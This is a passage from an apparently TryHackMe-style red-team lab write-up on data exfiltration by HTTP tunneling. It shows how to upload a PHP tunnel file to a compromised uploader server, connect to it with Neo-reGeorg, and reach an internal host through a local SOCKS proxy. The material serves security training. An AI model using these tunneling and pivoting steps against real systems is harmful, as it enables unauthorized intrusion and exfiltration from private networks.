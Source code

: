 ![App Screenshot](https://github.com/rohit00712/Red-Team/blob/main/Post%20Compromise/data_Exfiltration/images/16.png)

To upload the PHP file, use admin as the key to let you upload any files into the `uploader.thm.com`.

We need to use the `neoreg.py` to connect to the client and provide the key to decrypt the tunneling client. We also need to provide a URL to the PHP file that we uploaded on the uploader machine

`root@AttackBox:/opt/Neo-reGeorg# python3 neoreg.py -k thm -u http://MACHINE_IP/uploader/files/tunnel.php`

Once it is connected to the tunneling client, we are ready to use the tunnel connection as a proxy binds on our local machine, `127.0.0.1`, on port `1080`.

For example, if we want to access the app.thm.com, which has an internal IP address `172.20.0.121` on port `80`

`curl --socks5 127.0.0.1:1080 http://172.20.0.121:80`

![App Screenshot](https://github.com/rohit00712/Red-Team/blob/main/Post%20Compromise/data_Exfiltration/images/17.PNG)
